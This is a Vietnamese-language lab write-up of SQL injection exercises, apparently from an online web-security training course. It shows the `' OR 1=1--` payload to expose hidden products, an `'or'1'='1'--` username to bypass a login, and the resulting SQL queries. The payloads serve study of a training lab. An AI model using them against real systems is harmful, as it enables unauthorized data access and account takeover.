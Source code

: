 # Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
![](https://imgur.com/00EXGcO.png)
- Lab này yêu cầu tấn công để web hiển thị tất cả các sản phẩm đã phát hành và chưa phát hành. Lỗ hổng này nằm trong filter category. 
- Dùng Burp Suite để bắt request từ category
![](https://imgur.com/7e8Ljm0.png)
- Đưa nó vào Repeater để sửa request, ta sẽ thực hiện SQL injection bằng cách thêm vào `'+OR+1=1--` 
    - Dấu ' để tìm kiếm lỗi
    - Thêm `+OR+1=1--` để câu lệnh luôn đúng, tức là hiển thị tất cả các sản phẩm trong category, bao gồm cả các categories không biết
    - `--` là cú pháp comment trong sql, tất cả những phần sau nó đều vô nghĩa, tức là `AND released = 1` sẽ được bỏ qua
    - Tóm lại, câu lệnh trở thành 
    ```sql
    SELECT * FROM products WHERE category = 'Tech+gifts'or'1'='1'-- AND released = 1
    ```
    
    ![](https://imgur.com/YWnXDTL.png)

Done!
![](https://imgur.com/VywUdqz.png)

# Lab 2: SQL injection vulnerability allowing login bypass
![](https://hackmd.io/_uploads/Hy_38WCb6.png)

Lab chứa lỗ hổng ở trang đăng nhập
![](https://hackmd.io/_uploads/rkOIuZAb6.png)
Nhập thử `a` ở `username` và `password` câu lệnh sql sẽ có dạng
```sql
SELECT * FROM users WHERE username = 'a' AND password = 'a'
```
Nếu nhập `username` là `'or'1'='1'--` thì lệnh này sẽ trở thành
```sql
SELECT * FROM users WHERE username = ''or'1'='1'-- AND password = 'a'
```
Vì 1=1 là điều kiện luôn đúng và password bị trở thành comment nên ta có thể login ở bất kỳ tài khoản nào
![](https://hackmd.io/_uploads/ryu4tbCZp.png)

Done!
![](https://hackmd.io/_uploads/ByMIF-0-p.png)

# Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
![](https://hackmd.io/_uploads/SJO0kf0-a.png)
